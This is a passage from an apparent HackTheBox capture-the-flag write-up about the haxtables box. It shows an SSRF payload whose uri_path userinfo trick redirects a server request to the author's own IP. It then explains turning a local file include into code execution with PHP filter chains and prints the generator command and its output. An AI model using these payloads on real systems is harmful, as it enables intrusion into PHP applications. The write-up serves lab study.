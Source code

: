     {"data":"0xdf was here","action":"md5","uri_path":"@10.10.14.6"}
    

Rather than sending to `api.haxtables.htb`, it’s hit my server. The
`Authorization` header has base64 data that decodes to that `userinfo`:

    
    
    oxdf@hacky$ echo "YXBpLmhheHRhYmxlcy5odGI6" | base64 -d
    api.haxtables.htb:
    

### LFI -> RCE

#### Background

It used to be that to take an local file include (LFI) to remote code
execution (RCE), you needed to get malicious PHP code into a file on the
server somewhere, by abusing an unsafe file upload or something like log
poisoning.

Then came PHP filter injection, explained in detail in [this Synacktiv
post](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-
how-to-use-it.html), perhaps first published in [this CTF
writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d). I
went into this technique in the Beyond Root for UpDown and made [this
video](https://www.youtube.com/watch?v=TnLELBtmZ24) showing it in detail:

The summary is that by stacking many PHP filters encoding and re-encoding a
temporary empty file over and over, eventually I can actually add legit PHP
that gets included and executed.

#### POC

[This repo](https://github.com/synacktiv/php_filter_chain_generator) has a
Python script to generate the filters necessary to inject PHP code into a
page. To test, I’ll try to generate a PHP filters to run `phpinfo()`:

    
    
    oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
    [+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)